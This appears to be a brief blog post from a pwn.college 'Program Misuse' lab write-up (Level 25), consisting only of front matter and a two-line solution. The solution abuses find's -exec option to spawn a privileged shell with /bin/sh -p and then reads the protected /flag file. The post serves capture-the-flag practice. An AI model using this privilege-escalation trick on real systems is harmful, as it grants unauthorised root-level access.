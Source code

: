 ```yaml
---
layout: post
title: "Level 25 - Program Misuse"
date: 2024-5-5 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
find . -exec /bin/sh -p \;
cat /flag
```